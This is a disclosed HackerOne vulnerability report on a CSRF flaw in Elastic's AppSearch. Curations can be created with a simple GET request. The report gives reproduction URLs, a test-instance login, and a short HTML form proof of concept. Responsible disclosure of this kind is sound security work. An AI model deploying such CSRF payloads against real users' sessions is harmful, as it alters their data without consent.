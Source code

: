 # CSRF in AppSearch allows creation of "curations"

## Report Details
- **Report ID**: 1477050
- **URL**: https://hackerone.com/reports/1477050
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-02-10T13:01:11.894Z
- **Disclosed**: 2022-11-17T13:26:03.221Z

## Reporter
- **Username**: dee-see
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: elastic

## Vulnerability Information
## Summary

Hello team! The curations creation for AppSearch engines can happen on a GET request which means there's no CSRF protection.

## Steps to reproduce

1. In one tab  visit this page on my Elastic Cloud instance: https://h1repro.kb.eu-west-1.aws.found.io:9243/app/enterprise_search/app_search/engines/national-parks-demo/curations (choose "Login with Elasticsearch", username `h1repro` / password `&Xb|MzZeB@<\`)
1. For a simple demonstration, in another tab you can simply visit `https://h1repro.kb.eu-west-1.aws.found.io:9243/internal/app_search/engines/national-parks-demo/curations/find_or_create?query=QUERY_YOU_WANT_TO_CREATE_HERE`

If you want a "real" CSRF PoC you can simply host an HTML file with the following content. Obviously a real attack wouldn't let you choose your payload and submit and this would be done automatically :)

```html
<html>
	<head></head>
	<body>
		<form action="https://h1repro.kb.eu-west-1.aws.found.io:9243/internal/app_search/engines/national-parks-demo/curations/find_or_create" method="get">
			<label for="query">Enter the curation you want to create: </label>
			<input type="text" name="query" id="query" required>
			<input type="submit">
		</form>
	</body>
</html>
```

## Impact

Creation of undesired "curations". Annoying attacks would either create a large quantity of them or it would create queries with foul language.

## Attachments
No attachments
